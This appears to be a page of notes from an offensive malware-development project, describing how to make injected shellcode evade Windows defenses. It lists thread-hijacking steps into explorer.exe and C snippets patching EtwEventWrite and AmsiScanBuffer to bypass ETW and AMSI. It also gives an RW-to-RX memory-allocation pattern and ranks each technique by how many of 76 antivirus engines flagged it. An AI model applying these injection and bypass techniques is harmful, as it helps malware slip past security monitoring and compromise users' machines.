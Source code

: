 **Thread Hijacking:**
```c
1. Open existing process (explorer.exe)
2. Allocate RW memory remotely
3. Write shellcode
4. Change to RX
5. Find existing thread
6. Suspend → Modify RIP → Resume
```

**Why it's stealthy:**
- No new thread creation (CreateRemoteThread is heavily hooked)
- No async procedure calls (APC queueing is monitored)
- Uses legitimate process's execution context
- Lower anomaly score in behavioral analysis

**Thread Hijacking vs Alternatives:**
| Technique | Detections | Why |
|-----------|------------|-----|
| Thread Hijacking | 11/76 | ✅ Least suspicious |
| APC Injection | 14/76 | ❌ Well-known pattern |
| CreateRemoteThread | Not tested | ❌ Heavily hooked/monitored |

### ETW/AMSI Bypass Analysis

**Simple 1-Byte Patch (WORKS):**
```c
*EtwEventWrite = 0xC3;  // RET instruction
*AmsiScanBuffer = 0xC3;  // RET instruction
```
- **Result:** 11/76 detections
- **Why it works:** Minimal modification, quick execution

**Complex 6-Byte Patch (FAILS):**
```c
// mov eax, 0x80070057; ret (E_INVALIDARG)
BYTE patch[] = {0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3};
memcpy(AmsiScanBuffer, patch, 6);
```
- **Result:** 15/76 detections
- **Why it fails:** Larger memory write, more complex pattern

### Memory Protection Pattern

**Working Pattern (RW→RX):**
```c
1. NtAllocateVirtualMemory(..., PAGE_READWRITE)
2. NtWriteVirtualMemory(...)
3. NtProtectVirtualMemory(..., PAGE_EXECUTE_READ)
4. Execute
```

**Why this works:**
- Never allocates RWX memory (major red flag)
- Follows legitimate code loading pattern
- W^X (Write XOR Execute) compliant

---